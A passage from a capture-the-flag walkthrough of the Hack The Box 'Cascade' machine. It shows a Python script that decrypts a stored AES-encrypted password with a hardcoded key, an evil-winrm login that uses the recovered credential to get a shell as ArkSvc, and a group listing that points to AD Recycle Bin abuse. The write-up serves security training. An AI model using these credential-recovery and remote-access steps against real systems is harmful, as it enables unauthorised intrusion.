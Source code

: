 Once the breakpoint hit, it will decrypt the password for us.

###### `Cracking AES-128 Password - Path 2 - Coding - The OG Way`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# cat AES128_Decrypt.py 
import pyaes
from base64 import b64decode
key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv = iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# python3 AES128_Decrypt.py
w3lc0meFr31nd
```

###### `Shell as ArkSvc`
```
# evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'                     
 
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

###### `AD Recycle Bin Group`
We know that we will have to deal with AD Recycle Bin Group at some point. Checking out the `whoami /priv`, reveals that the user `ArkSvc` is part of the `AD Recycle Bin Group`
```
*Evil-WinRM* PS C:\Users\arksvc\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
